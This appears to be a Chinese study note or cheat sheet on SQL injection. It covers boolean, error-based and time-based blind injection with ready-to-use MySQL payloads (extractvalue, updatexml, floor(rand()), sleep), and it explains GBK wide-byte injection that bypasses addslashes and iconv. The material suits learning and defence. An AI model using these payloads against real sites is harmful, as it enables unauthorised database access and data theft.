 # 盲注

 ## 1.基于布尔SQL盲注----------构造逻辑判断

 -   盲注就是在sql注入过程中，sql语句执行的选择后，选择的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注：
      -  三大法宝：mid(),substr(),left()
      -  str="123456"     mid(str,2,1)    结果为2
      -  substr(DATABASE(),1,1)>’a’,查看数据库名第一位
      -  left(database(),1)>’a’,查看数据库名第一位，left(database(),2)>’ab’,查看数据库名前二位
      -  ORD()函数，此函数为返回第一个字符的ASCII码
      -  ASCII('a')
      -  regexp正则注入  
		 select user() regexp '^[a-z]'
      -  ike匹配注入  
			select user() like 'ro%'

## 2.   报错注入

1. rand不能和order by一起用
    -  `	select * from users where id=1 and (select 1 from (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2)))a);`
    -  	 `select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`

2. 	extractvalue（）
    - `select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));  `  
    0x7e 代表   &nbsp; &nbsp;<b>~</b>
    - `select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));`
4. 利用数据重复性
    - ` select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;`

## 3.   基于时间的SQL盲注----------延时注入

   -   `If(ascii(substr(database(),1,1))>115,0,sleep(5))  `



#   宽字节注入


-   基本概概念
    -   宽字节是相对于ascII这样单字节而言的；像GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节

-   ## **判断方式：1.尝试；2.页面编码是gbk**

-   php中的转义函数有`addslashes，mysql_real_escape_string，mysql_escape_string`  
    经测试，`mysql_real_escape_string，mysql_escape_string`都已经过时  
    还有一种是配置`magic_quote_gpc`，不过PHP高版本已经移除此功能  

-   ##  **先了解下SQL的执行过程：**
    - 使用者输入数据后，会通过php的默认编码生成sql语句发送给服务器。
    - 宽字节注入指的是mysql数据库在使用宽字节（GBK）编码时，会认为两个字符是一个汉字（前一个ascii码要大于128（比如%df），才到汉字的范围），而且当我们输入单引号时，mysql会调用转义函数，将单引号变为\’，其中\的十六进制是%5c,mysql的GBK编码，会认为%df%5c是一个宽字节，也就是’運’，从而使单引号闭合（逃逸），进行注入攻击.
    - 宽字节注入发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码，然后服务器会根据character_set_connection把请求进行转码，从character_set_client转成character_set_connection，然后更新到数据库的时候，再转化成字段所对应的编码
        >%df%27===>(addslashes)====>%df%5c%27====>(GBK)==========>運’  
        >用户输入==> 过滤函数======> 代码层的$sql==>mysql处理请求==>mysql中的sql

    -   为了避免宽字节注入，很多人使用iconv函数（能够完成各种字符集间的转换`$text=iconv("UTF-8","GBK",$text);`），其实这样做是有很大风险的，仍旧可以造成宽字节注入。
    -   可以使用逆向思维，先找一个gbk的汉字錦,錦的utf-8编码是0xe98ca6，它的gbk编码是0xe55c,是不是已经看出来了，当传入的值是錦'，'通过addslashes转义为\'(%5c%27),錦通过icov转换为%e5%5c，终止变为了%e5%5c%5c%27,不难看出%5c%5c正好把反斜杠转义，使单引号逃逸，造成注入。
    -   `iconv("utf-8","gbk","錦");`编码转换  
        `echo bin2hex($t);`输出字节码
    -   